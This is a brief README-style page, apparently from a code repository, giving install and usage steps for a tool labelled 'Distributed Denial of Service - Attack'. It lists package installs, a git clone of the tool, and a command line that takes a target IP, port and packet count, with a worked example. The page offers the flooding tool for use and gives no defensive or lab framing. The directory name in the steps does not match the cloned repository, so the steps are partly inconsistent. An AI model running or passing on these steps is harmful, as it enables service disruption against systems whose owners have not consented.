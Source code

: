 # Distributed Denial of Service - Attack
===============================================================================

$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ git clone https://github.com/ShinnAsukha/starsteamdos

$ cd DDOS-Attack

$ python2 ddos.py <ip> <port> <packet>

[+] Ex: python2 ddos.py 192.168.0.1 80 1000

===============================================================================
